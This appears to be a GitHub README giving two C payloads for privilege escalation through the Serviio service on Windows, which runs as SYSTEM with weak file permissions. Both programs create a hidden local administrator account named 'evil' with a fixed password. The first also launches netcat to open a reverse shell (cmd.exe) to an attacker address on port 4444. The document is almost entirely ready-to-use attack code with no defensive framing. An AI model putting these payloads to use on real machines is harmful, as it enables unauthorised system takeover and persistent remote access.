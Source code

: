 # ServiioService_PrivEsc
privilege escalation for Serviio running insecure file permissions on services that run as nt authority\system

```
#include <stdlib.h>

int main ()
{
	int i;
    i = system ("net user evil Ev!lpass /add");
	i = system ("net localgroup administrators evil /add");
    i = system ("cd C:\\Tools\\practical_tools ");
	i = system ("nc.exe 192.168.119.199 4444 -e cmd.exe");

	return 0;
}
```

# ServiioService_PrivEsc - Second example 
```
#include <stdlib.h>
int main ()
{
	int i;
    i = system ("net user evil Ev!lpass /add");
	i = system ("net localgroup administrators evil /add");
	return 0;
}
```

